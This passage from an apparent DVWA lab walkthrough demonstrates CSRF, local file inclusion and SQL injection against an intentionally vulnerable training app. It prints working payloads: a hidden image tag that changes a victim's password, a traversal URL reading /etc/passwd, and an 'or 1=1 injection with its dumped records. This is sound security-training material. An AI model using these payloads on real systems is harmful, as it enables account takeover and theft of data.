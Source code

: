 ![csrf](https://chousensha.github.io/images/dvwa/csrf.png "csrf")

We see here that we can change the admin password. When we submit the new password, we see the request looks like this:

```
http://metasploitable/dvwa/vulnerabilities/csrf/?password_new=newpass&password_conf=newpass&Change=Change#
```

We can exploit this behavior to change anyone’s password as long as they are logged in to the application, by tricking the user to perform the request. The exact method may differ, but an example would be to use the image tag to make the request behind the scenes. Of course, this could be achieved by manipulating HTML in other ways too, with a link, iframe, script, etc.

```
<img src="http://metasploitable/dvwa/vulnerabilities/csrf/?password_new=newpass&password_conf=newpass&Change=Change#">
```

### File Inclusion

[**Overview**](https://www.owasp.org/index.php/OWASP_Periodic_Table_of_Vulnerabilities_-_Remote_File_Inclusion)

> The application loads data from an attacker-controlled resource at runtime, enabling a variety of malicious activities. Either the source address or the resource itself (or both) may be under the attacker’s control.

![include file](https://chousensha.github.io/images/dvwa/include.png "file inclusion")

The file inclusion is pretty straightforward:

```
http://192.168.127.128/dvwa/vulnerabilities/fi/?page=../../../../../../../../../etc/passwd
```

### SQL Injection

[**Overview**](https://www.owasp.org/index.php/SQL_Injection)

> A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to effect the execution of predefined SQL commands.

![sqli](https://chousensha.github.io/images/dvwa/sqli.png "sqli")

The vulnerability is straightforward. On low security, injecting `‘or 1=1— ` returns all records:

```
ID: 'or 1=1-- 

First name: admin

Surname: admin

ID: 'or 1=1-- 

First name: Gordon

Surname: Brown

ID: 'or 1=1-- 

First name: Hack
```